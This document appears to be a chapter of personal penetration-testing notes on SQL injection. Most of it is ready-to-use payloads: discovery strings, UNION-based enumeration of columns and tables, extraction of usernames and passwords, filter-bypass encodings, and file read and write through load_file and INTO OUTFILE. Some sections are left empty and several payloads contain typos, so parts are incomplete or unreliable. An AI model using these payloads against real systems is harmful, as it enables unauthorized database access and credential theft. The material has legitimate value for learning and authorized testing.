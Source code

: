 ## Chapter 9 : SQL 


1) Check user input vulnerability points : URL, fields, User-agent, Language 


2) Test the user inputs with basic payloads to check if the vulnerability and type of injections : __Blind, Band, Error_Based__ SQL


3) Query the number of the columns in the databasee


4) Find out the datatype of the columns


5) Extract basic information as the version or database name 


&nbsp;
&nbsp;
&nbsp;


### Discovery


__Type 1:Straightforward__


1- Submit a single quotation mark as the item of data you are targeting.



__Basic Discovery Commands :__



Examples :


>> __' OR 1=1 ;--__ 
    
>> __') OR 1=1; --__ 
   
>> __' and 'a'='a__

>> __' and 'a'='b__

   
&nbsp;
&nbsp;
&nbsp;



2- It is important to keep in mind that not all vulnerabilities are straighforward.
   It is essential while testing to look for the behavior of the application:


 - __Error_based:__ the application shows the error to the end user 


- __Blind__ does not show any thing back to the user. It is mainly revolves on booleans
	 of True or False (application behavior)


- __Band__


__Note:__ It is always recommend to probe the applcation as Blind SQL injection, if the basic payloads did not work 


&nbsp;
&nbsp;

__Type 2:Bypass Filters __


1- Use the above commands in encoding manner in order to bypass filters 


__Basic Encodign Commands:__


Examples:


>>


>>



--------------------------------------------------------------------------------------------------------------------

### Probing the Database 


__The UNION Operator__


1- Easily extract arbitrary data from within
  the database

&nbsp;
2- UNION is supported by all major DBMS products.

&nbsp;
3- Your first task is to discover the number of columns returned by the original
  query being executed by the application. You can do this in two ways:

&nbsp;
4- You can exploit the fact that NULL can be converted to any data type to
  systematically inject queries with different numbers of columns until your
  injected query is executed
  

>>    ‘ UNION SELECT NULL--
>>       ‘ UNION SELECT NULL, NULL--
>>      ‘ UNION SELECT NULL, NULL, NULL--

&nbsp;
5- Having identified the required number of columns, your next task is to
  discover a column that has a string data type so that you can use this to
  extract arbitrary data from the database


 >>    ‘ UNION SELECT ‘a’, NULL, NULL--
 >>     ‘ UNION SELECT NULL, ‘a’, NULL--
 >>     ‘ UNION SELECT NULL, NULL, ‘a’--

&nbsp;
6- In Oracle databases, every SELECT statement must include a FROM
  attribute, so injecting UNION SELECT NULL produces an error regardless of
 the number of columns. You can satisfy this requirement by selecting from the
 globally accessible table DUAL. For example:


  >>>>  ‘ UNION SELECT NULL FROM DUAL--


&nbsp;
7- When you have identified the number of columns required in your injected
  query, and have found a column that has a string data type, you are in a position
  to extract arbitrary data.

  >>  EX: ‘ UNION SELECT @@version,NULL,NULL--
	
  >>   ‘ UNION SELECT banner,NULL,NULL FROM v$version-- | ORACLE



&nbsp;
&nbsp;
&nbsp;

-------------------------------------------------------------------------------------------------

### Exploitation : 


__Extracting Data with UNION__


__Type 1: Straightforward___


1- Find out the names of the database tables and columns that
  may contain interesting information


  __EX: Name=Matthew’%20union%20select%20table_name,column_name,null,null,
      null%20from%20information_schema.columns--__


2- Select the required column

	__Ex: Name=Matthew’%20UNION%20select%20username,password,null,null,null%20  
	from%20users--__



__Note:__

The information_schema is supported by MS-SQL, MySQL, and many
other databases, including SQLite and Postgresql. It is designed to hold database
metadata,EXCEPT ORACLE


__ORACLE: SELECT table_name,column_name FROM all_tab_
	columns to retrieve information about tables and columns in the database.__



3- Search for interesting pieces of inforamtion:

 __EX: SELECT table_name,column_name FROM information_schema.columns where
      column_name LIKE ‘%PASS%’__

&nbsp;
&nbsp;


__Type 2 : Bypass Filters__


__Method 1:__  Sometimes when injecting the payload, it wont work as the url is encoded or common characters are removed 


 >> select ename,sal from emp where ename=’marcus’:


__Encoding with ASCII__

	__Ex: SELECT ename, sal FROM emp where ename=CHR(109)||CHR(97)||CHR(114)||CHR(99)||CHR(117)||CHR(115)__


	__Ex: SELECT ename, sal FROM emp WHERE ename=CHAR(109)+CHAR(97)__



__Method 2:__  if the query does not work, there might be a filter for words :


	__Ex: 	SeLeCt
		%00SELECT
		SELSELECTECT
		%53%45%4c%45%43%54
		%2553%2545%254c%2545%2543%2554__


__Method 3:__ Using SQL Comments

		
	__EX: SELECT/*foo*/username,password/*foo*/FROM/*foo*/users__

	     __SEL/*foo*/ECT username,password FR/*foo*/OM users___



__Method 4:__ Dealing with single quotes issue:

		

- Sometimes single quote causes error in the database 

		
		
- To exploit this vulnerability, an attacker can simply register a username
  containing his crafted input, and then attempt to change his password. 


 __EX: ‘ or 1 in (select password from users where username=’admin’)--___


&nbsp;
&nbsp;

## More Examples :


>> union select 1, 2, 3 %23                  &nbsp;&nbsp;  |  Bypass Web filters  | 


>> uNioN+sEleCt+1,2+%23                      &nbsp;&nbsp;  |  Bypass Web filters  |  


>> uNioN`/**/`sEleCt`/**/`1,2`/**/`%23       &nbsp;&nbsp;  |  Bypass Web filters  | 
>>

>> UniOn selEct 1,version() /*


>> UniOn selEct 1,database() /*


>> UniOn selEct 1,user() /*


>> UniOn selEct 1,table_name frOm information_schema.tables table_schema = '[database name]' /*


>> UniOn selEct 1,column_name frOm information_schema.columns table_name = '[table name]' /*


>> UniOn selEct 1,[column name] frOm [table name] /*


>> UniOn selEct 1,load_file('file location') /*   Reading files:


>> UniOn selEct null,[file content] inTo outfile '/location/to/write/file/to' /*  Writing files 


>> union select 1, column_name, null, from Infromation_schema .columns where table_name = 0x769166  &nbsp;&nbsp; | hex encoding                                                                                                                                dbname   


>>  ' union select 1, column_name, null, null, null, 5 from Infromation_schema.columns where table_name = 'accounts' | 


>>  ' union select username, pass, is_admin from 'accounts' &nbsp;&nbsp;  | 


>>  ' union select 1, table_name, null, null, null, 5 from Infromation_schema.tables where table_schema = 'owasdb 












